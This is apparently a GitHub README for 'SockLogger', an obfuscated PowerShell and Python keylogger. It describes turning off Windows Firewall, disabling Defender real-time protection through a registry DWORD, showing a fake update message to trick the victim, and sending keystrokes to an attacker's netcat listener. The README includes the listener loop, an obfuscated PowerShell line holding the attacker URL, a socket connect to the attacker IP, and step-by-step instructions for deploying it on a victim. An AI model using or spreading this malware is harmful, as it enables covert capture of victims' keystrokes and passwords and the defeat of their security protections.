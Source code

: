 # SockLogger
A creative way to evade 'Real time protection' and 'Windows Firewall' on windows, and obtain victim key-strokes by obfuscate keylogger and using 'nc' on remote machine. While trying looking for a way to make a simple keylogger, thought it would be interesting to make an obfuscate keylogger which will executed upon a running .ps1 with a fake message update about critical problems using powershell ofcourse. Started to make a script which will make 3 things, but first it must run as Administrator privilege;
1. Turn off the Windows Firewall Center.
2. enject a malicious DWORD on the registry which will make the real time protection going down upon a reboot.
3. Disable the real time protection.
4. Save keystrokes on the C:\Windows\System32 directory and obtain it using a python to open a server on the victim machine.
5. When the the SockLogger-Obfuscate.pyw gets execute [ Using .pyw for making it run in the background ], it's send the keystrokes of the victim to a remote machine [ Attacker ] on the other side by using the next command for listening in a loop: 'while true; do nc -lvnp [PORT]; done' [ in my case is PORT 8080 ].

![1](https://user-images.githubusercontent.com/90532971/196167464-4af42a03-e099-4c1f-ac87-d8f5b1b7dd4f.png)


# Usage
I made a test on my local windows 10 x64  machine [ VICTIM ] and it works perfectly.
1. git clone the reposotory.
2. cd SockLogger.
3. open a new terminal, press Ctrl+Shift+R and and terminal will split into two windows.
4. On window number 1 with the help of using a python, open a server to your local machine on the SockLogger folder.
5. On window number 1, use the on-top-command i wrote for a loop over and over.
6. Download the script on the victim machine [ Real time protection 'ON' || Windows Firewall 'ON' ]
7. after run it, wait for powershell window to gone. try typing something and head over to the attacker machine.
8. On window number 2, you should see the keystrokes you made [ On victim machine ]

![fff](https://user-images.githubusercontent.com/90532971/196167908-15377efc-6201-4da1-a5a9-b2ef8ae23fb3.png)

# Updates
This code is just a test while trying for a ways of not only using obfuscation ways, but also using a creative ways of bypass the windows defender/real time protection. still, i want to make a better code which not only contain a phishing message, but also a one that will actually restart the victim's computer, and when it load's again, the script will make another things reffers to protection and bypassing it. 
<h3>Note: Change Machine IP in the .ps1/pyw script under the lines:</h3>
<pre>
${MAc`H`iNe} = ("{5}{2}{0}{3}{1}{4}"-f '://','.0.0.21','tp','10',':','ht') - .ps1 script
</pre>
<pre>
m.connect(("10.0.0.21", 8080)) - .pyw script
</pre>
in my case, the .ps1 was 10.0.0.21 on port 80, and the listener was on port 8080.<br>
please, if you are having any problems, i would like to know. soon i will make a python script which will execute it all in one code. please notice that the .pyw script {python} saved at 'C:\Users\public' directory
